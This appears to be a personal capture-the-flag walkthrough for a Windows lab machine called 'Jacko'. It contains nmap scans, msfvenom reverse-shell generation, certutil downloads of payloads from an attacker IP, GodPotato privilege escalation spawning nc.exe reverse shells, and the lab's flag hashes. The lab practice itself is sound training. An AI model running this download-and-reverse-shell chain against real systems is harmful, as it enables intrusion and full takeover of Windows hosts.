 # Win - Jacko

---

### Host

```bash
192.168.212.66
```

### Scan

```bash
// Quick scan.
> nmap -sV -T4 192.168.212.66

// Full TCP scan.
> nmap -sCV -A -Pn -O -p- 192.168.212.66 -oN tcpnmap.md

// Full UDP scan.
> sudo nmap -sU -Pn 192.168.212.66 --top-ports=100 --reason -oN udpnmap.md
```

---

## Walkthrough

![image.png](Win%20-%20Jacko%2018d553bebf0f806aa0dace43079ea26d/image.png)

![image.png](Win%20-%20Jacko%2018d553bebf0f806aa0dace43079ea26d/image%201.png)

![image.png](Win%20-%20Jacko%2018d553bebf0f806aa0dace43079ea26d/image%202.png)

![image.png](Win%20-%20Jacko%2018d553bebf0f806aa0dace43079ea26d/image%203.png)

![image.png](Win%20-%20Jacko%2018d553bebf0f806aa0dace43079ea26d/image%204.png)

![image.png](Win%20-%20Jacko%2018d553bebf0f806aa0dace43079ea26d/image%205.png)

![image.png](Win%20-%20Jacko%2018d553bebf0f806aa0dace43079ea26d/image%206.png)

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.170 LPORT=6767 -f exe -o reverse.exe

// 确认shell放置路径

certutil -urlcache -f http://192.168.45.170/reverse.exe C:\Users\tony\reverse.exe

C:\\Users\\tony\\reverse.exe

// 检查PATH，有时候PATH变量缺少了C:\Windows\System32
echo %PATH%
// 手动修改pass
set PATH=%PATH%;C:\Windows\System32

certutil -urlcache -f http://192.168.45.170/PrintSpoofer64.exe C:\Users\tony\pf.exe

// 检查.NET版本 -> 选择合适的GodPotato
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s
certutil -urlcache -f http://192.168.45.170/GodPotatoNET4.exe C:\Users\tony\gp.exe

// 使用
C:\Users\Public\GodPotato-NET4.exe -cmd "cmd /c whoami"

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.170 LPORT=9090 -f exe -o newre.exe

certutil -urlcache -f http://192.168.45.170/nc.exe C:\Users\tony\nc.exe

GodPotato-NET4.exe -cmd "C:\Windows\Temp\nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.174 7777"
gp.exe -cmd "C:\Windows\Temp\nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.170 9090"

certutil -urlcache -f http://192.168.45.170/nc.exe C:\Users\tony\nc.exe

gp.exe -cmd "C:\Users\tony\nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.170 9090"

-> now admin on port 9090
```

https://www.exploit-db.com/exploits/49384

```bash
- local.txt : b4818f39e89e77a8e03a0692439d9c54
- proof.txt : c77d58a8209bda1a0bad49dbb25d66b7
```